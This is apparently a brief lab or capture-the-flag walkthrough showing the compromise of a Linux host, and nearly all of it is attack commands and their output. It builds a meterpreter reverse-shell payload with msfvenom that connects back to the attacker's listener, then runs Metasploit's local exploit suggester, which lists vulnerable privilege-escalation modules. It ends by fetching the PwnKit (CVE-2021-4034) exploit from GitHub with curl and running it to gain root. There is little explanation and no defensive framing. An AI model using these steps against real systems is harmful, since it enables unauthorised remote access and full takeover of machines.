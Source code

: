 generate meterpreter payload

-  msfvenom \-p linux/x86/meterpreter/reverse\_tcp LHOST=192\.168\.45\.221 LPORT=4444 \-f elf \> \.\./shell\.elf
-  transfer shell\.elf to target machine

msf6\> run multi handler and get meterpreter session
msf6\> run post\(multi/recon/local\_exploit\_suggester\)

\[\+\] 192\.168\.201\.176 \- exploit/linux/local/cve\_2021\_4034\_pwnkit\_lpe\_pkexec: The target is vulnerable\.
\[\+\] 192\.168\.201\.176 \- exploit/linux/local/cve\_2022\_0847\_dirtypipe: The target appears to be vulnerable\. Linux kernel version found: 5\.8\.0
\[\+\] 192\.168\.201\.176 \- exploit/linux/local/pkexec: The service is running, but could not be validated\.
\[\+\] 192\.168\.201\.176 \- exploit/linux/local/runc\_cwd\_priv\_esc: The target appears to be vulnerable\. Vulnerable runc version runc: detected
\[\+\] 192\.168\.201\.176 \- exploit/linux/local/su\_login: The target appears to be vulnerable\.
\[\+\] 192\.168\.201\.176 \- exploit/linux/local/sudoedit\_bypass\_priv\_esc: The target appears to be vulnerable\. Sudo 1\.9\.1\.pre\.1ubuntu1\.1 is vulnerable, but unable to determine editable file\. OS can NOT be exploited by this module

Using PwnKit exploit

[https://github.com/ly4k/PwnKit?tab=readme-ov-file](#https://github.com/ly4k/PwnKit?tab=readme-ov-file)


curl \-fsSL [https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit](#https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit)
\-o PwnKit
chmod \+x \./PwnKit
\./PwnKit
# root

